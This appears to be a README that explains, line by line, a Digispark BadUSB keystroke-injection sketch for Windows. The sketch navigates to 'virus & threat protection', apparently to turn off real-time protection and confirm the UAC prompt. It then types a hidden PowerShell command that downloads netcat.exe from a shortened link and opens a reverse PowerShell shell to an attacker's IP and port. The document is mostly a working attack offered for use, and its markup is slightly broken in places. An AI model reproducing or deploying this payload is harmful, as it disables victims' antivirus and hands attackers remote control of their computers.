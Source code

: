 <code>#include "DigiKeyboard.h"</code>
<p>This line includes the header file "DigiKeyboard.h," which provides the necessary definitions and functions for interacting with the DigiKeyboard.</p>

<code>void setup(){</code>
<p>This marks the beginning of the setup() function, which is a special function in Arduino that is called once when the board is powered on or reset.</p>

<code>DigiKeyboard.delay(1000);</code>
<p>This line introduces a delay of 1000 milliseconds (1 second) in the program execution.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);</code>
<p>This line simulates pressing the 'S' key along with the left GUI (Windows key) modifier using the sendKeyStroke() function.</p>

<code>DigiKeyboard.delay(1000);</code>
<p>Another delay of 1000 milliseconds is introduced.</p>

<code>DigiKeyboard.print("virus & threat protection");</code>
<p>The print() function is used to simulate typing the string "virus & threat protection" as keystrokes.</p>

<code>DigiKeyboard.delay(500);</code>
<p>A delay of 500 milliseconds (0.5 seconds) is added.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>The sendKeyStroke() function is used to simulate pressing the Enter key.</p>

<code>DigiKeyboard.delay(5000);</code>
<p>A delay of 5000 milliseconds (5 seconds) is introduced.</p>

<code>DigiKeyboard.sendKeyStroke(43);</code>
<p>The sendKeyStroke() function is used to simulate tapping a key with the code 43. The specific key associated with code 43 may vary depending on the keyboard layout.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>Another Enter key press is simulated.</p>

<code>DigiKeyboard.delay(700);</code>
<p>A delay of 700 milliseconds (0.7 seconds) is added.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>Another Enter key press is simulated.</p>

<code>DigiKeyboard.delay(700);</code>
<p>Another delay of 700 milliseconds is introduced.</p>

<code>  DigiKeyboard.sendKeyStroke(KEY_SPACE);</code>
<p>The sendKeyStroke() function is used to simulate pressing the Space key.</p>

<code>DigiKeyboard.delay(2000);</code>
<p>A delay of 2000 milliseconds (2 seconds) is added.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);</code>
<p>The sendKeyStroke() function is used to simulate pressing the 'Y' key along with the left Alt modifier.</p>

<code>DigiKeyboard.delay(1000);</code>
<p>A delay of 1000 milliseconds (1 second) is introduced.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);</code>
<p><The sendKeyStroke() function is used to simulate pressing the F4 key along with the left Alt modifier. This combination is often used to close the active window in Windows./p>
  
<code>  DigiKeyboard.delay(500);</code>
<p>A delay of 500 milliseconds (0.5 seconds) is added.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);</code>
<p>The sendKeyStroke() function is used to simulate pressing the 'R' key along with the left GUI (Windows key) modifier.</p>

<code>DigiKeyboard.delay(700);</code>
  <p>A delay of 700 milliseconds (0.7 seconds) is introduced.</p>

<code>  DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");</code>
<p>The print() function is used to simulate typing the provided string, which contains a PowerShell command.</p>
  
<code>code></code>
<p>The sendKeyStroke() function is used to simulate pressing the Enter key.</p>

<code>void loop(){}</code>
<p>This is the loop() function, which runs repeatedly after the setup() function. However, in this code, the loop() function is empty, so it doesn't contain any specific instructions</p>




